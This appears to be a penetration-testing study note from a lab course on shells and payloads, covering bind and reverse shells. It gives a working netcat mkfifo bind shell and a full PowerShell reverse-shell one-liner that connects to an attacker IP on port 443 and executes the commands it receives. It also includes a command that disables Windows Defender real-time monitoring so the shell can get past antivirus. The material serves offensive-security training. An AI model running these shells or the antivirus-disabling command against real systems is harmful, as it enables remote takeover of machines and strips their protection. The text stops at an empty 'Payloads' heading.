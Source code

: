 # Shells & Payloads
- [Shell Basics](#shell-basics)
    - [Bind Shells](#bind-shells)
    - [Reverse Shells](#reverse-shells)
- [Payloads](#payloads)




## Shell Basics
### Bind Shells
![Bind Shell](../../../images/bindshell.png)
- **Establishing a Basic Bind Shell with Netcat:** 
    1. Server - Binding a Bash shell to the TCP session: `Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`
    2. Client - Connecting to bind shell on target: 
    ```
    abdeonix@htb[/htb]$ nc -nv 10.129.41.200 7777

    Target@server:~$ 
    ```

- The bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener.

### Reverse Shells 
![Reverse Shell](../../../images/reverseshell.png)
- [**Reverse Shell cheat sheet**](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

> [!TIP]
> We may want to use common ports like 443,80 because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level.

- **Reverse Shell in Windows**:
    - Listen on our attack box using netcat `sudo nc -nlvp 443`
    - Connect from our target 
    ```
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```
    
    > [!NOTE]
    > If we are blocked by windows defender 
    > ```
    > At line:1 char:1
    > + $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
    > + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    > This script contains malicious content and has been blocked by your antivirus software.
    > + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    > + FullyQualifiedErrorId : ScriptContainedMaliciousContent
    > ```
    > Disable AV: `Set-MpPreference -DisableRealtimeMonitoring $true`


## Payloads